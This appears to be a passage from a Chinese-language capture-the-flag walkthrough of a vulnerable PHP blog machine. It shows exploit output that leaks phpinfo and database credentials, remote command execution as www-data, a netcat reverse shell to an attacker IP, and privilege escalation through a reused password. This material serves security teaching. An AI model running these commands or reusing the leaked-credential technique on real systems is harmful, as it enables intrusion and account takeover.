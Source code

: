 ```c
[*] Testing for vulnerability...
[+] Website is vulnerable

[*] Fecthing phpinfo
        PHP Version 5.6.40-0+deb8u12
        System   Linux debian 3.16.0-4-586 #1 Debian 3.16.51-2 (2017-12-03) i686
        Loaded Configuration File   /etc/php5/apache2/php.ini
        Apache Version   Apache/2.4.10 (Debian)
        User/Group   www-data(33)/33
        Server Root   /etc/apache2
        DOCUMENT_ROOT   /var/www/html
        PHP Version   5.6.40-0+deb8u12
        allow_url_fopen  On  On
        allow_url_include  Off  Off
        disable_functions  pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,  pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,
        open_basedir   no value    no value
        System V Message based IPC   Wez Furlong
        System V Semaphores   Tom May
        System V Shared Memory   Christian Cartus

[*] Fetching include/base.inc.php
<?php
                        // DATABASE CONNECTION INFORMATION
                        define('DATABASE_HOST', 'localhost');           // Database host
                        define('DATABASE_NAME', 'microblog');           // Name of the database to be used
                        define('DATABASE_USERNAME', 'clapton'); // User name for access to database
                        define('DATABASE_PASSWORD', 'yaraklitepe');     // Password for access to database
                        define('DB_ENCRYPT_KEY', 'p52plaiqb8');         // Database encryption key
                        define('DB_PREFIX', 'mb101_');              // Unique prefix of all table names in the database
                        ?>

[*] Testing remote execution
[+] Remote exec is working with system() :)
Submit your commands, type exit to quit
> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

经过一番排查，我们发现用户clapton的密码被重复使用su一下

# 提权
反弹shell
```c
> nc -e /bin/bash 192.168.44.128 9001

┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001

script /dev/null -c bash

su clapton //yaraklitepe
```

